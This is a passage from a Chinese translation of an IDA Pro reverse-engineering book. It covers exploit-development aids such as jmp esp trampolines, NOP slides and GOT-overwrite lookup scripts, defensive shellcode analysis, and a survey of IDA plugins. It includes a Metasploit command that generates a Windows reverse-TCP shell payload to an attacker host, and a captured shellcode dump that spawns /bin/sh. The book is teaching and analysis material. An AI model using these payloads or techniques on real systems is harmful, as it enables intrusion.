为了可靠地实现漏洞利用，通常很有用采用一种控制传输机制，该机制不需要你知道你的 shellcode 所在的精确内存地址。这在你将 shellcode 放置在堆或栈中时尤其正确，这可能会使你的 shellcode 的地址不可预测。在这种情况下，找到在漏洞利用触发时恰好指向你的 shellcode 的寄存器是可取的。例如，如果 ESI 寄存器在控制指令指针的瞬间已知指向你的 shellcode，那么如果指令指针恰好指向一个`jmp esi`或`call esi`指令，这将非常有帮助，因为它会将执行流程引导到你的 shellcode，而无需你知道 shellcode 的确切地址。同样，`jmp esp`通常是将控制权转移到你放在栈中的 shellcode 的非常方便的方法。这利用了这样一个事实：当包含易受攻击缓冲区的函数返回时，栈指针将指向刚刚覆盖的相同保存的返回地址下方。如果你继续覆盖栈，超过保存的返回地址，那么栈指针将指向你的数据（应该是代码！）。一个指向你的 shellcode 的寄存器与一个通过跳转到或调用该寄存器指向的位置来重定向执行指令序列的组合被称为*跳板*。

寻找此类指令序列的概念并非新事物。在论文“Linux 和 Windows 之间漏洞利用方法的变化”的附录 D 中，David Litchfield 提出了一个名为 *getopcode.c* 的程序，用于在 Linux ELF 二进制文件中搜索有用的指令。沿着类似的思路，Metasploit^([198]) 项目提供了其 `msfpescan` 工具，该工具能够扫描 Windows PE 二进制文件中的有用指令序列。如果有机会，IDA 与这些工具一样能够定位有趣的指令序列。

为了举例说明，假设你想要在特定的 x86 二进制文件中定位一个 `jmp esp` 指令。你可以使用 IDA 的文本搜索功能来查找字符串 `jmp esp`，你只有在恰好有正确数量的空格在 *jmp* 和 *esp* 之间时才会找到它，而且你不太可能在任何情况下找到它，因为任何编译器很少使用跳入堆栈的操作。那么为什么还要搜索呢？答案在于，你真正感兴趣的不是反汇编文本 `jmp esp` 的出现，而是无论其位置如何的字节序列 `FF E4`。例如，以下指令包含一个嵌入的 `jmp esp`：

```
.text:080486CD B8 FF FF E4 34                 mov     eax, 34E4FFFFh
```

如果需要 `jmp esp`，则可以使用虚拟地址 `080486CFh`。IDA 的二进制搜索（搜索 ▸ 字节序列）功能是快速定位此类字节序列的正确方法。当执行针对已知字节序列的精确匹配的二进制搜索时，请记住执行区分大小写的搜索，否则像 `50 C3` (`push eax/ret`) 这样的字节序列将被字节序列 `70 C3`（因为 50h 是大写的 *P*，而 70h 是小写的 *p*）匹配，这是一个带有-61 字节相对偏移量的溢出跳转。可以使用 `FindBinary` 函数编写脚本进行二进制搜索，如下所示：

```
ea = FindBinary(MinEA(), SEARCH_DOWN | SEARCH_CASE, "FF E4");
```

此函数调用从数据库中的最低虚拟地址开始向下（向高地址）搜索，以区分大小写的方式，寻找 `jmp esp` (`FF E4`)。如果找到序列，返回值是字节序列开始的虚拟地址。如果没有找到序列，返回值是 BADADDR（-1）。在本书的网站上有一个自动化搜索更广泛指令种类的脚本。使用此脚本，我们可能请求搜索将控制权转移到由 EDX 寄存器指向的位置的指令，并得到以下类似的结果：

```
Searching...
Found jmp edx (FF E2) at 0x80816e6
Found call edx (FF D2) at 0x8048138
Found 2 occurrences
```

像这样的便捷脚本可以在确保我们在数据库中搜索项目时不会忘记涵盖所有可能的案例的同时，节省大量时间。

## 寻找有用的虚拟地址

我们将简要提到的最后一项是 IDA 在其反汇编中显示虚拟地址。我们知道我们的 shellcode 最终将出现在静态缓冲区（例如`.data`或`.bss`部分）的情况几乎总是比我们的 shellcode 落在堆或栈上的情况更好，因为我们最终得到一个已知的、固定的地址，我们可以将其控制权转移。这通常消除了需要 NOP 滑动或找到特殊指令序列的需要。

NOP 滑动

*NOP*滑动是一个由连续的 nop（什么都不做）指令组成的序列，当我们的 shellcode 地址已知且有些可变时，提供了一个更宽的目标来命中我们的 shellcode。我们不是针对我们的 shellcode 的第一个有用指令进行定位，而是针对 NOP 滑动的中间部分。如果 NOP 滑动（以及因此我们的有效负载的其余部分）在内存中稍微向上或向下移动，我们仍然有很大的机会落在滑动内并成功运行到我们的 shellcode。例如，如果我们有 500 个 NOP 作为 shellcode 的前缀空间，我们可以针对滑动的中间部分，只要我们猜测的滑动中间地址在实际地址的 250 字节范围内。

一些攻击利用了攻击者能够将任何他们喜欢的数据写入他们选择的任何位置的事实。在许多情况下，这可能会限制为 4 字节覆盖，但这个数量通常证明是足够的。当可能进行 4 字节覆盖时，一个替代方案是将函数指针覆盖为我们 shellcode 的地址。大多数 ELF 二进制文件中使用的动态链接过程利用一个称为*全局偏移表（GOT）*的函数指针表来存储动态链接库函数的地址。当这些表中的一个条目可以被覆盖时，就可以劫持一个函数调用并将调用重定向到攻击者选择的位置。在这种情况下，攻击者的典型事件序列是在已知位置放置 shellcode，然后覆盖将被利用程序调用的下一个库函数的 GOT 条目。当库函数被调用时，控制权将转移到攻击者的 shellcode。

在 IDA 中，通过滚动到`got`部分并浏览你希望覆盖的条目的函数，可以轻松找到 GOT 条目的地址。然而，为了尽可能自动化，以下 Python 脚本会快速报告给定函数调用将使用的 GOT 条目地址：

```
ea = ScreenEA()
   dref = ea
   for xref in XrefsFrom(ea, 0):
     if xref.type == fl_CN and SegName(xref.to) == ".plt":
        for dref in DataRefsFrom(xref.to):
            Message("GOT entry for %s is at 0x%08x\n" %
                   (GetFunctionName(xref.to), dref))
            break
   if ea == dref:
      Message("Sorry this does not appear to be a library function call\n")
```

此脚本通过将光标放在对库函数的任何调用上，例如以下调用，并调用脚本来执行。

```
.text:080513A8                 call    _memset
```

脚本通过遍历交叉引用直到到达 GOT 来操作。检索到的第一个交叉引用  被测试以确保它是一个调用引用，并且它引用了 ELF 程序链接表 (`.plt`)。PLT 条目包含读取 GOT 条目并将控制权转移到 GOT 条目中指定的地址的代码。检索到的第二个交叉引用  获取正在从 PLT 读取的位置的地址，这就是相关 GOT 条目的地址。在先前的 `_memset` 调用上执行时，脚本在我们示例二进制文件上的输出如下：

```
GOT entry for .memset is at 0x080618d8
```

如果我们的目的是通过劫持对 `memset` 的调用来控制程序，那么这个输出为我们提供了所需的确切信息，即我们需要覆盖地址 `0x080618d8` 的内容，将其替换为我们的 shellcode 地址。

* * *

^([195]) *write4* 功能为攻击者提供了将 4 个字节写入其选择的内存位置的机会。

^([196]) 想要了解更多关于格式字符串漏洞利用的读者可以再次参考 Jon Erickson 的 *《黑客：利用的艺术，第 2 版》*。

^([197]) 请参阅 [`www.nccgroup.com/Libraries/Document_Downloads/Variations_in_Exploit_methods_between_Linux_and_Windows.sflb.ashx`](http://www.nccgroup.com/Libraries/Document_Downloads/Variations_in_Exploit_methods_between_Linux_and_Windows.sflb.ashx)。

^([198]) 请参阅 [`www.metasploit.com/`](http://www.metasploit.com/)。

# 分析 Shellcode

到目前为止，本章主要关注 IDA 作为攻击工具的使用。在我们结束之前，提出 IDA 作为防御工具至少一种用途可能是个不错的想法。与任何其他二进制代码一样，确定 shellcode 的唯一方法是对其进行反汇编。当然，首先的要求是获取一些 shellcode。如果你是好奇的类型，并且一直想知道 Metasploit 负载是如何工作的，你可以简单地使用 Metasploit 生成原始形式的负载，然后对生成的 blob 进行反汇编。

以下 Metasploit 命令生成一个负载，该负载将回连到攻击者的计算机上的 4444 端口，并在目标 Windows 计算机上为攻击者提供一个 shell：

```
# ./msfpayload windows/shell_reverse_tcp LHOST=192.168.15.20 R >
w32_reverse_4444
```

生成的文件包含请求的原始二进制形式的负载。该文件可以在 IDA 中打开（以二进制形式打开，因为它没有特定的格式），并通过将显示的字节转换为代码来获得反汇编。

shellcode 还可能出现在网络数据包捕获中。缩小确切哪些数据包包含 shellcode 可能是一个挑战，欢迎您查阅大量关于网络安全方面的书籍，这些书籍将很高兴告诉您如何找到所有那些讨厌的数据包。现在，考虑在 DEFCON 18 网络捕获中观察到的攻击的重新组装客户端流：

```
00000000   AD 02 0E 08  01 00 00 00  47 43 4E 93  43 4B 91 90  ........GCN.CK..
00000010   92 47 4E 46  96 46 41 4A  43 4F 99 41  40 49 48 43  .GNF.FAJCO.A@IHC
00000020   4A 4E 4B 43  42 49 93 4B  4A 41 47 46  46 46 43 90  JNKCBI.KJAGFFFC.
00000030   4E 46 97 4A  43 90 42 91  46 90 4E 97  42 48 41 48  NF.JC.B.F.N.BHAH
00000040   97 93 48 97  93 42 40 4B  99 4A 6A 02  58 CD 80 09  ..H..B@K.Jj.X...
00000050   D2 75 06 6A  01 58 50 CD  80 33 C0 B4  10 2B E0 31  .u.j.XP..3...+.1
00000060   D2 52 89 E6  52 52 B2 80  52 B2 04 52  56 52 52 66  .R..RR..R..RVRRf
00000070   FF 46 E8 6A  1D 58 CD 80  81 3E 48 41  43 4B 75 EF  .F.j.X...>HACKu.
00000080   5A 5F 6A 02  59 6A 5A 58  99 51 57 51  CD 80 49 79  Z_j.YjZX.QWQ..Iy
00000090   F4 52 68 2F  2F 73 68 68  2F 62 69 6E  89 E3 50 54  .Rh//shh/bin..PT
000000A0   53 53 B0 3B  CD 80 41 41  49 47 41 93  97 97 4B 48  SS.;..AAIGA...KH
```

这个数据包明显包含 ASCII 和二进制数据的混合，并且根据与这个特定网络连接相关的其他数据，可以假设二进制数据是 shellcode。像 Wireshark^([199])这样的数据包分析工具通常具有直接将 TCP 会话内容提取到文件的能力。在 Wireshark 的情况下，一旦找到感兴趣的 TCP 会话，可以使用`Follow TCP Stream`命令，然后将原始流内容保存到文件中。生成的文件可以随后加载到 IDA（使用 IDA 的二进制加载器）中，进行进一步分析。通常，网络攻击会话包含 shellcode 和应用层内容的混合。为了正确反汇编 shellcode，必须正确定位攻击者有效载荷的第一字节。完成这一任务的难度会因攻击和协议的不同而有所不同。在某些情况下，长的 NOP 滑块会很明显（对于 x86 攻击，是长序列的`0x90`），而在其他情况下（例如当前示例），定位 NOP 以及因此 shellcode 可能不那么明显。例如，前面的十六进制转储实际上包含一个 NOP 滑块；然而，它使用的是随机生成的 1 字节指令序列，这些指令对后续的 shellcode 没有影响。由于这样的 NOP 滑块存在无限多种排列组合，网络入侵检测系统识别并对此发出警报的危险性降低。最后，对正在被攻击的应用程序的一些了解可能有助于区分旨在由应用程序消费的数据元素和旨在执行的 shellcode。在这种情况下，经过一点努力，IDA 将前面的二进制内容反汇编成如下所示：

```
  seg000:00000000           db 0ADh ; ¡
   seg000:00000001           db    2
   seg000:00000002           db  0Eh
   seg000:00000003           db    8
   seg000:00000004           db    1
   seg000:00000005           db    0
   seg000:00000006           db    0
   seg000:00000007           db    0
   seg000:00000008 ; --------------------------------------------------------------
   seg000:00000008           inc     edi
   seg000:00000009           inc     ebx
   seg000:0000000A           dec     esi
   ...             ; NOP slide and shellcode initialization omitted
   seg000:0000006D           push    edx
   seg000:0000006E           push    edx
   seg000:0000006F
   seg000:0000006F loc_6F:                   ; CODE XREF:  seg000:0000007E↓j
   seg000:0000006F           inc     word ptr [esi-18h]
   seg000:00000073           push    1Dh
   seg000:00000075           pop     eax
  seg000:00000076           int     80h     ; LINUX - sys_pause
   seg000:00000078           cmp     dword ptr [esi], 4B434148h
   seg000:0000007E           jnz     short loc_6F
   seg000:00000080           pop     edx
   seg000:00000081           pop     edi
   seg000:00000082           push    2
   seg000:00000084           pop     ecx
   seg000:00000085
   seg000:00000085 loc_85:                   ; CODE XREF:  seg000:0000008F↓j
   seg000:00000085           push    5Ah ; 'Z'
   seg000:00000087           pop     eax
   seg000:00000088           cdq
   seg000:00000089           push    ecx
   seg000:0000008A           push    edi
   seg000:0000008B           push    ecx
  seg000:0000008C           int     80h     ; LINUX - old_mmap
   seg000:0000008E           dec     ecx
   seg000:0000008F           jns     short loc_85
   seg000:00000091           push    edx
   seg000:00000092           push    'hs//'
   seg000:00000097           push    'nib/'
   ...             ; continues to invoke execve to spawn the shell
```

值得注意的是，流的前 8 个字节实际上是协议数据，而不是 shellcode，因此我们选择不对其进行反汇编。此外，IDA 似乎在和处识别的系统调用有误。我们省略了这一事实，即这个漏洞利用目标是针对 FreeBSD 应用程序的，这有助于解码有效载荷中使用的系统调用编号。由于 IDA 只能注释 Linux 的系统调用编号，我们不得不进行一些研究来了解 FreeBSD 的系统调用`29`（`1dh`）实际上是`recvfrom`（而不是`pause`），系统调用`90`（`5Ah`）实际上是`dup2`函数（而不是`old_mmap`）。

由于它缺少 IDA 有用的任何头部信息，shellcode 通常需要额外的关注才能正确反汇编。此外，shellcode 编码器经常被用作绕过入侵检测系统的手段。这样的编码器产生的效果与混淆工具对标准二进制文件的效果非常相似，进一步复杂化了 shellcode 反汇编的过程。

* * *

^([199]) 查看 [`www.wireshark.org/`](http://www.wireshark.org/).

# 摘要

请记住，IDA 并不是一个能够让你从二进制文件中直接发现漏洞的万能工具。如果你的最终目标是仅使用 IDA 进行漏洞分析，那么最大限度地自动化你的工作将是明智之举。在开发分析二进制文件的算法时，你应该始终考虑如何自动化这些算法，以便在未来的分析任务中节省时间。最后，重要的是要理解，阅读所有最好的书籍并不能让你在漏洞分析和漏洞利用开发方面变得精通。如果你有兴趣提高你的技能，你必须进行实践。许多网站提供针对这一目的的练习挑战；一个很好的起点是[`www.overthewire.org/wargames/`](http://www.overthewire.org/wargames/)上的 Wargames 部分。

# 第二十三章。现实世界的 IDA 插件


由于 IDA 多年来被用于各种用途，因此不会令人惊讶的是，已经开发了大量插件来添加人们在其特定 IDA 应用中找到的有用功能。如果你决定想利用他人的工作，要知道没有一家商店可以提供所有公开可用的插件。你可能找到插件参考的三个主要位置是 Hex-Rays 下载页面^([200]), OpenRCE 下载页面^([201]), 和 RCE 逆向工程论坛^([202]）。当然，花点时间使用 Google 也不会有害。

就像任何其他公开可用的软件一样，在尝试安装第三方插件时，你可能会遇到一些挑战。在插件开发者选择发布他们的努力的情况下，插件以源代码、编译的二进制文件或两者兼有的形式分发。如果被迫从源代码构建，你必须处理插件作者提供的 make 文件（或等效文件），这些文件可能与你的特定编译器配置不兼容。另一方面，如果插件以二进制形式分发，它可能使用了与你的 IDA 版本不兼容的 SDK 版本，这意味着你将无法运行该插件，直到作者选择发布更新版本。最后，插件可能具有外部依赖项，这些依赖项必须满足才能构建、运行或两者兼而有之。

在本章中，我们将回顾几个流行的 IDA 插件；它们的目的；如何获取它们；以及如何构建、安装和使用它们。

# Hex-Rays

或许是所有 IDA 插件中的“老大哥”，Hex-Rays 是一个能够为编译的 ARM 或 32 位 x86 二进制文件中的函数生成“类似 C 的伪代码”^([203])的反汇编插件。Hex-Rays 是由生产 IDA 的同一公司创建和销售的商业插件。反汇编器适用于 IDA 的所有 32 位版本。Hex-Rays 仅以二进制形式提供，安装是通过将提供的插件复制到*<IDADIR>/plugins*目录来完成的。在线上可提供 Hex-Rays 的使用手册^([204]), 该手册提供了使用 Hex-Rays 的精彩概述，并包含用于创建反汇编插件的 Hex-Rays SDK^([205])的一些文档。

安装完成后，可以通过 View ▸ Open Subviews ▸ Pseudocode（快捷键 F5）激活反汇编器来反汇编包含光标的函数，或者通过 File ▸ Produce File ▸ Create C File（快捷键 ctrl-F5）来反汇编数据库中的所有函数并将它们保存到文件中。

当你为单个函数生成伪代码时，IDA 显示中会打开一个新的子视图（标签窗口），其中包含反汇编的函数。示例 23-1 展示了使用 Hex-Rays 生成用于检查 Defcon 15 Capture the Flag 二进制的伪代码的示例。每次为函数生成伪代码时，Hex-Rays 都会打开一个新的标签窗口来显示结果。

示例 23-1. Hex-Rays 输出示例

```
signed int __cdecl sub_80489B4(int fd)
{
  int v1; // eax@1
  signed int v2; // edx@1
  char buf; // [sp+4h] [bp-208h]@2
  char s; // [sp+104h] [bp-108h]@2

  v1 = sub_8048B44(fd, (int)"Hans Brix? Oh no! Oh,
 herro. Great to see you again, Hans! ", 0);
  v2 = −1;
  if ( v1 != −1 )
  {
    recv(fd, &buf, 0x100u, 0);
    snprintf(&s, 0x12Cu, "Hans Brix says: \"%s\"\n", &buf);
    sub_8048B44(fd, (int)&s, 0);
    v2 = 0;
  }
  return v2;
}
```

注意，尽管 Hex-Rays 在参数（`a1`、`a2`等）和局部变量（`v1`、`v2`）的占位符命名约定上与 IDA 略有不同，但区分函数参数和局部变量的能力仍然存在。如果你在反汇编中更改了任何变量的名称，反汇编器将使用这些名称而不是内部生成的占位符名称。

| **名称** | Hex-Rays 反汇编器 |
| --- | --- |
| **作者** | Ilfak Guilfanov, [Hex-Rays.com](http://hex-rays.com) |
| **分发** | 仅二进制 |
| **价格** | 美元 2,239 |
| **描述** | 从编译的 ARM 或 32 位、x86 函数生成类似 C 的伪代码 |
| **信息** | [`www.hex-rays.com/decompiler.shtml`](http://www.hex-rays.com/decompiler.shtml) |

Hex-Rays 使用与 IDA 相同的提示来推断数据类型；然而，你可能注意到在进行操作时类型不匹配 Hex-Rays 预期的情况时，会发生一些类型转换。为了方便，你可以通过右键单击并选择隐藏类型转换菜单选项来告诉 Hex-Rays 隐藏所有类型转换。

一旦打开伪代码窗口，你就可以几乎像使用源代码编辑器和导航器一样使用它。在伪代码窗口中进行导航和编辑与在标准 IDA 反汇编窗口中进行导航和编辑非常相似。例如，双击一个函数名，会立即在伪代码窗口中反汇编选定的函数。许多编辑功能都可通过上下文相关菜单获得，如图图 23-1 所示，包括更改变量和函数名称和类型的能力。



图 23-1. Hex-Rays 反汇编编辑选项

此外，你对变量名、函数名和数据类型所做的更改会传播回 IDA 的反汇编窗口。通过重复应用重命名和设置类型，并通过隐藏类型转换，示例 23-1 可以轻松地转换为以下内容。

```
signed int __cdecl sub_80489B4(int fd)
{
  int length; // eax@1
  signed int error; // edx@1
  char buf[256]; // [sp+4h] [bp-208h]@2
  char s[264]; // [sp+104h] [bp-108h]@2

  length = write_string(fd, "Hans Brix? Oh no! Oh, herro.
 Great to see you again, Hans! ", 0);
  error = −1;
  if ( length != −1 )
  {
    recv(fd, buf, 256u, 0);
    snprintf(s, 300u, "Hans Brix says: \"%s\"\n", buf);
    write_string(fd, s, 0);
    error = 0;
  }
  return error;
}
```

请记住，在编译过程中信息会丢失。对于任何非外部符号，没有必要保留符号信息，编译器优化通常会删除冗余并简化代码。因此，除了广泛使用类型转换外，你可能会在生成的伪代码中注意到比通常在人类编写的 C 代码中预期的更多`goto`语句。这并不意外，因为将编译器生成的控制流整齐地映射回其原始的 C 形式通常非常困难。然而，Hex-Rays 能够识别复杂的 C 结构，如`switch`语句，并且已经投入了大量工作来识别各种 C 编译器使用的标准代码序列。

尽管 Hex-Rays 具有所有这些功能，但鼓励您不要过度依赖 Hex-Rays。C 源代码当然比其相应的汇编表示更容易阅读和更简洁，但反编译并不是一门完美的科学。在阅读 Hex-Rays 伪代码时，您是在信任您所看到的是底层汇编的忠实表示，尽管 Ilfak 非常努力确保 Hex-Rays 尽可能准确，但肯定存在一些边缘情况可能会对 Hex-Rays 造成问题。强烈建议您通过验证底层汇编代码来支持您从阅读 Hex-Rays 伪代码中得出的任何结论。最后，请记住，尽管 Hex-Rays 可以用于从 C++代码编译的二进制文件，但它只能生成 C 代码，并且生成的代码将缺少任何特定于 C++的特性。

* * *

^([200]) 请参阅 [`www.hex-rays.com/idapro/idadown.htm`](http://www.hex-rays.com/idapro/idadown.htm).

^([201]) 请参阅 [`www.openrce.org/downloads/`](http://www.openrce.org/downloads/).

^([202]) 请参阅 [`www.woodmann.com/forum/index.php`](http://www.woodmann.com/forum/index.php).

^([203]) 请参阅 [`www.hex-rays.com/decompiler.shtml`](http://www.hex-rays.com/decompiler.shtml).

^([204]) 请参阅 [`www.hex-rays.com/manual/`](http://www.hex-rays.com/manual/).

^([205]) 请参阅 [`www.hexblog.com/?p=107`](http://www.hexblog.com/?p=107). 请注意不要与 IDA SDK 混淆。

# IDAPython

IDAPython 最初是由 Gergely Erdelyi 开发的第三方 IDA 插件，在第十五章中有更详细的介绍。它在 IDA 用户中的普及迅速，自 IDA 5.4 以来，IDAPython 已作为标准插件随所有版本的 IDA 一起提供。尽管如此，IDAPython 仍然作为一个开源项目提供，您可以下载并修改以满足您的需求。

在 IDAPython 源代码中包含的 *BUILDING.txt* 文件中提供了构建 IDAPython 的说明，而安装说明可在 IDAPython 网站上找到。如果您选择从源代码构建 IDAPython，必须满足一系列依赖项。首先，需要有一个 32 位 Python 的有效安装。建议 Windows 和 OS X 用户使用 Python 网站上提供的安装程序之一来获取和安装 Python.^([206]) Linux 用户通常可以使用适用于其 Linux 版本的 32 位 Python 版本。请注意，截至本文撰写时，IDAPython 与 Python 版本 3.*x* 不兼容。

| **名称** | IDAPython |
| --- | --- |
| **作者** | Gergely Erdelyi |
| **分发** | 源代码和二进制文件（IDA 也附带二进制版本） |
| **价格** | 免费 |
| **描述** | IDA Pro 的 Python 脚本引擎 |
| **信息** | [`code.google.com/p/idapython/`](http://code.google.com/p/idapython/) |

随 IDAPython 一起提供的 Python 构建脚本 *build.py* 使用简化包装器接口生成器 (SWIG)^([207]) 生成将 Python 与 IDA 的 C++ 库接口所需的组件，以及随 IDA SDK 一起提供的头文件（自 5.4 版本起）包含许多宏声明，以确保它们与 SWIG 兼容。除了 SWIG 之外，构建过程还需要一个 C++ 编译器。对于 Windows 构建，构建脚本配置为使用 Microsoft Visual C++^([208]），而对于 Linux 和 Mac 构建，构建过程使用 g++。

* * *

^([206]) 请参阅 [`www.python.org/`](http://www.python.org/)。

^([207]) 请参阅 [`www.swig.org/`](http://www.swig.org/)。

^([208]) 要获取免费、精简版的 Visual C++，请访问 [`www.microsoft.com/express/`](http://www.microsoft.com/express/)。

# collabREate

collabREate 插件旨在促进多个用户分析同一二进制文件之间的协作。该项目的目标是提供一种自然集成表示同步客户端的插件组件与一个由 SQL 数据库支持的强大服务器组件，并且能够支持超出简单数据库同步的功能。

| **名称** | collabREate |
| --- | --- |
| **作者** | Chris Eagle 和 Tim Vidas |
| **分发** | C++ 源代码和二进制文件（包括 IDA 免费软件） |
| **价格** | 免费 |
| **描述** | 用于同步远程 IDA 会话的协作框架 |
| **信息** | [`www.idabook.com/collabreate/`](http://www.idabook.com/collabreate/) |

从一个高层次的角度来看，collabREate 在很大程度上得益于 IDA Sync 项目。^[[209]) collabREate 插件处理数据库更新并与远程服务器组件通信，以同步数据库更新与项目其他成员。由于 IDA 是一个单线程应用程序，因此需要某种机制来处理异步非阻塞网络通信。在 IDA 6.0 之前的版本中，异步通信组件来自 IDA Sync 使用的 Windows 异步套接字技术；然而，随着 IDA 6.0 的引入，异步通信现在使用 Qt 套接字类进行处理，这使得 collabREate 可以在所有 IDA 支持的平台中使用。

CollabREate 通过利用 IDA 的进程和 IDB 事件通知机制，采取了一种综合的方法来捕获用户操作。通过挂钩各种数据库更改通知，collabREate 能够无缝地将数据库更新传播到 collabREate 服务器。随着 IDA 的每次发布，IDA 生成的更改通知的类型和数量都在增长，collabREate 努力为它构建的 IDA 版本尽可能多地挂钩有用的通知。使用 collabREate 的一个有趣副作用是，它允许使用不同版本 IDA 的用户（例如 5.2 和 6.0）即使无法相互交换 *.idb* 文件，也能同步他们的活动。^[[210]) collabREate 架构为参与用户提供了真正的发布和订阅功能。用户可以选择性地将她的更改发布到 collabREate 服务器，订阅服务器上发布的更改，或者两者都进行发布和订阅。例如，一个经验丰富的用户可能希望与一个组共享（发布）她的更改，同时阻止（不订阅）其他用户所做的所有更改。用户可以选择他们可以发布和订阅的操作类型，例如字节值更改、名称更改以及注释的添加或删除。例如，一个用户可能只想发布注释，而另一个用户可能只想订阅名称更改和修补字节通知。

collabREate 插件最显著的特点之一是其与 IDA SDK 的集成程度。IDA 通知与特定的数据库操作相关联，而不是与特定的用户操作相关联。用户操作恰好触发 IDA 通知这一事实，当然对于协作过程至关重要；然而，通知也可以通过其他方式触发。脚本和 API 函数调用也可以生成通知消息。因此，修改数据库字节、重命名位置或变量或插入新注释的脚本操作将被发布到 collabREate 服务器，并最终与其他在同一项目上工作的 IDA 用户共享。

collabREate 服务器组件目前是用 Java 实现的，并使用 JDBC^([211]) 与后端 SQL 数据库进行通信。服务器负责用户和项目管理。用户账户通过服务器命令行界面进行管理，而项目则由用户在连接到服务器时创建。在通过服务器认证后，用户的 collabREate 插件会将用户正在分析的输入文件的 MD5 哈希值发送到服务器。MD5 值用于确保多个用户实际上正在处理相同的输入文件。在初次连接时，用户会指出他们希望订阅的更新类型，此时服务器将自用户上次会话以来缓存的全部更新转发给用户。CollabREate 的项目选择对话框如图 图 23-2 所示。


图 23-2. CollabREate 项目选择对话框

用户会看到一个与当前数据库兼容的项目下拉列表。作为一个选项，始终可以创建一个需要用户输入项目描述以供他人查看的新项目。

collabREate 服务器能够创建现有项目的分支，以便用户在不影响其他用户的情况下创建项目的替代分支。如果您想在不对其他用户施加这些更改的情况下对数据库进行大量修改（并跟踪这些更改），这是一个非常有用的功能。由于服务器能够处理与单个二进制输入文件相关的多个项目，插件和服务器会采取额外的步骤以确保用户连接到他们特定数据库的正确项目。

服务器不提供回滚功能，但提供了一种形式的“保存点”。可以在任何时候创建快照；然后，为了返回到该数据库状态，用户可以重新打开二进制文件（新的 *.idb* 文件）并从快照中创建一个新的项目。这使用户能够在回滚过程中返回到特定的时间点。CollabREate 的分支和快照功能通过与插件初始激活相同的快捷键序列访问，这导致显示如图 图 23-3 所示的对话框。


图 23-3. CollabREate 选择命令对话框

collabREate 服务器的一个最终特性是能够限制用户对特定类型的更新。例如，一个用户可能被限制为仅订阅配置文件，而另一个用户可能只允许发布评论，第三个用户则允许发布所有类型的更新。

* * *

^([209]) 请参阅 [`pedram.redhive.com/code/ida_plugins/ida_sync/`](http://pedram.redhive.com/code/ida_plugins/ida_sync/)。

^([210]) IDA 的旧版本通常无法打开使用 IDA 新版本创建的 *.idb* 文件。

^([211]) *JDBC* 是 Java 数据库连接 API。

# ida-x86emu

反汇编二进制文件通常涉及手动跟踪代码，以便了解函数的行为。为了做到这一点，你需要对你正在分析的指令集有一个扎实的理解，并在遇到不熟悉的指令时有一个方便的参考资料来刷新你的记忆。指令模拟器可以是一个有用的工具，用于跟踪一系列指令中发生的所有寄存器和 CPU 状态变化。ida-x86emu 插件，如第二十一章详细讨论的，以及其信息在此再次显示，就是这样一种模拟器。

| **名称** | ida-x86emu |
| --- | --- |
| **作者** | Chris Eagle |
| **分发** | SDK v6.1 的源代码以及 IDA 5.0 及以上所有版本的二进制文件，包括 IDA 免费版。源代码与 SDK 版本 4.9 兼容。 |
| **价格** | 免费 |
| **描述** | IDA 的嵌入式 x86 指令模拟器 |
| **信息** | [`www.idabook.com/ida-x86emu/`](http://www.idabook.com/ida-x86emu/) |

此插件以源代码和二进制形式分发，且与 IDA SDK 4.6 及更高版本兼容。插件附带构建脚本和项目文件，以便在 Windows 平台上使用 MinGW 工具或 Microsoft Visual Studio 以及在非 Windows 平台上使用 g++ 进行构建。分发中包含用于与 IDA 免费版一起使用的插件预编译二进制版本。ida-x86emu 与所有基于 Qt 的 IDA 版本兼容；然而，在 IDA 6.0 之前，该插件仅与 IDA 的 Windows 图形界面版本兼容。

该插件考虑到自修改代码的开发，通过从当前 IDA 数据库读取指令字节、解码指令并执行相关操作来运行。操作可能涉及更新模拟器的内部寄存器变量或在自修改代码的情况下将数据写回数据库。通过分配新的 IDA 段并按需读取和写入，实现了模拟堆栈和堆。有关使用 ida-x86emu 的更详细信息，请参阅 第二十一章。

# 类信息

回想一下 第八章，C++ 程序可能包含有助于您恢复类名和类层次结构的信息。这种嵌入信息旨在支持 C++ 运行时类型识别 (RTTI)。Sirmabus 设计的 C++ Class Informer 插件旨在帮助逆向工程使用 Microsoft Visual Studio 编译的 C++ 代码。Class Informer 通过识别虚拟函数表（vtable 或 vftable）和 RTTI 信息，然后提取相关的类名和继承信息，自动化了 Igor Skochinsky 在其 OpenRCE 文章中描述的许多过程，该文章讨论了逆向工程 Microsoft Visual C++^([212])。

| **名称** | Class Informer |
| --- | --- |
| **作者** | Sirmabus |
| **分发** | 仅二进制 |
| **价格** | 免费 |
| **描述** | MSVC C++ 类标识符 |
| **下载** | [`www.macromonkey.com/downloads/IDAPlugIns/Class_Informer102.zip`](http://www.macromonkey.com/downloads/IDAPlugIns/Class_Informer102.zip) |

激活后，Class Informer 显示如图 图 23-4 所示的选项对话框，允许用户指定 Class Informer 应在二进制文件中的何处扫描 vtable，并允许用户控制 Class Informer 输出的详细程度。


图 23-4。Class Informer 选项对话框

当用户点击继续后，Class Informer 开始扫描，这可能需要一些时间，具体取决于二进制文件的大小和 Class Informer 遇到的虚拟函数表数量。扫描完成后，Class Informer 在 IDA 中打开一个新的标签窗口，以总结其发现。这里显示的是 Class Informer 输出的部分列表，具有代表性。

```
  Vftable    Method count    Class & structure info
 0041A298     0003              ChildClass;  [MI]
 0041A2A8     0003              ChildClass: SuperClass1, SuperClass2;  [MI]
 0041A2B8     0003              SuperClass1;  [SI]
 0041A2C8     0003              SuperClass2;  [SI]
 0041A2D8     0004              BaseClass;  [SI]
 0041A2EC     0005              SubClass: BaseClass;  [SI]
```

对于每个发现的虚拟函数表，Class Informer 会显示 vtable 的地址 ![httpatomoreillycomsourcenostarchimages854061.png]，方法计数 ![httpatomoreillycomsourcenostarchimages854063.png]（等于 vtable 中包含的功能指针数量），以及从嵌入的 RTTI 信息中派生出的每个类的摘要信息 ![httpatomoreillycomsourcenostarchimages854093.png]。恢复的类信息包括类的名称、任何超类的名称，以及类是否从单个基类（`[SI]`）或多个基类（`[MI]`）继承的指示。对于每个发现的 vtable，Class Informer 还会将结构模板应用于与类相关的所有 RTTI 相关的数据结构，并根据微软的名称混淆方案对每个结构和类的 vtable 进行命名。这为可能正在逆向工程任何复杂性的 Visual C++ 代码的人节省了大量时间。

* * *

^([212]) 请参阅 [`www.openrce.org/articles/full_view/23`](http://www.openrce.org/articles/full_view/23)。

# MyNav

